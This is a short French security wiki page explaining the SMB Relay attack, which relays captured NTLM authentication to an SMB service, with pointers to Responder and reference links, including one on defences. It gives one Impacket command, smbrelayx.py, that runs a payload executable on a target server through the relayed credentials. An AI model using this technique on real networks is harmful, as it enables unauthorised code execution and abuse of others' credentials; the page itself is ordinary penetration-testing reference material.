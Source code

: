 ```yaml
---
title: SMB Relay
permalink: /SMB_Relay/
---
```


# SMB Relay

SMB Relay est une méthode d'attaque permettant de relayer une authentification NTLM pour s'authentifier auprès d'un service [SMB](/SMB "wikilink").

## Méthodologie

Pour pouvoir faire un SMB relay il faut avoir une requête à relayer. De nombreuses méthodes sont décrites sur [Places of Interest in Stealing NetNTLM Hashes](https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/). La méthode la plus classique reste Responder.

## Outils

[Impacket](/Impacket "wikilink") propose un outil **smbrelayx.py**:

Une utilisation simple est la suivante:

``` bash
smbrelayx.py -e payload.exe -h 10.33.1.1
```

Ceci executera le fichier payload.exe sur le serveur 10.33.1.1 si l'utilisateur qu'on relaie a les droits nécessaires.

## Références

### Liens externes

-   [SMBRelay avec python sur SANS](https://pen-testing.sans.org/blog/2013/04/25/smb-relay-demystified-and-ntlmv2-pwnage-with-python)
-   [SMB Relay sur carnal0wnage](http://carnal0wnage.attackresearch.com/2012/11/windows-7-and-smb-relay.html)
-   [Méthodes de défense sur skullsecurity](https://blog.skullsecurity.org/2008/ms08-068-preventing-smbrelay-attacks)
-   [MS08_068 + MS10_046 = FUN UNTIL 2018](http://room362.com/post/2012/2012-02-11-ms08_068-ms10_046-fun-until-2018/)
-   [Places of Interest in Stealing NetNTLM Hashes](https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/)


